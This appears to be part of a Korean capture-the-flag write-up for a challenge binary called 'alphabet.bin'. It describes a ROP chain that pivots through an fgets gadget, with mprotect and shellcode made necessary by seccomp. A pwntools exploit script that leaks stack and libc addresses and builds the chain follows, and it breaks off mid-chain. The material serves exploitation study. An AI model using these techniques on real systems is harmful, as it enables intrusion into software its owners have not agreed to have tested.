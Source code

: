 그러면, 정확히 fgets 내부 함수에서 크래시가 발생하며, 0x14바이트만큼 원하는 값을 실행할 수 있게 된다. 이때, 첫 번째 가젯에는 `pop rbp; ret`를 넣고, 두 번째 8바이트는 스택 주소로 채운디.

![8](8.png)

그 뒤에,  `main` 함수 내부에 fgets 가젯을 사용하면 이어서 ROP를 수행할 수 있을 것이다. 이때, 마침 바이너리에는 PIE 보호 기법이 걸려 있지 않기 때문에 3바이트와 NULL을 채워 넣으면 딱 알차게 ROP를 수행할 수 있다.

이때 intend 라업은 `gets` 함수를 추가적으로 호출하였고, 이후에 `mprotect` 함수를 사용하여 스택 영을 실행 가능하게 만들어준 뒤 쉘 코드를 실행했다. 이는 seccomp 보호 기법으로 인해 필연적인 것임을 기억하자. 만약 그게 안 걸려 있으면, 바로 처음 ROP에서 원 가젯으로 쉘 실행시키고 끝낼 수도 있었다.

### [0x03] 익스플로잇

---

```python
from pwn import *

def use(src, dst, payload=False):
    if src < 0: src += 0x10000000000000000
    if dst < 0: dst += 0x10000000000000000
    if not payload:
        pl = b'Z\x08' + p64(src) + p64(dst) + b'U'*10
    else:
        pl = b'Z\x08' + p64(src) + p64(dst) + b'U'*6 + payload
    checksum = 0
    for r in pl:
        checksum += r ^ 0x55
    checksum %= 0x100
    pl += p8(checksum)
    p.sendlineafter(b"threads\n", pl)

context(arch='amd64')
shell = shellcraft.open("./flag.txt")
shell += shellcraft.read("rax", "rsp", 0x50)
shell += shellcraft.write(1, "rsp", 0x50)

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', False)
p = process('./alphabet.bin', aslr=1)

# stack leak
use(-0x22, 0)
p.recvuntil(b": ")
stack = u64(p.recv(6)+b'\x00\x00') + 0x12
log.success(f"stack @ {hex(stack)}")

use(-0x22 - 0xd8, - (stack - 0x4040d0))
# libc leak : _IO_file_overflow+259
p.recvuntil(b": ")
libc.address = u64(p.recv(6) +b'\x00\x00') - 259 - libc.symbols['_IO_file_overflow']
log.success(f"libc base @ {hex(libc.address)}")

pop_rbp = 0x000000000040125d
pop_rdi = libc.address + 0x000000000002a3e5
fgets_gadget = 0x401734
leave_ret = 0x0000000000401437
use(-0x12 - 0x10, -0x12 - 0x30)
payload = b'A'*0x18
payload += p64(pop_rbp) + p64(stack+0x1e - 8) + p32(fgets_gadget)
p.sendafter(b"threads\n",payload)

rop = ROP([libc])
rop.call(rop.find_gadget(["ret"]))
rop.call("gets", [stack - 0xa])
p.sendline(rop.chain())
```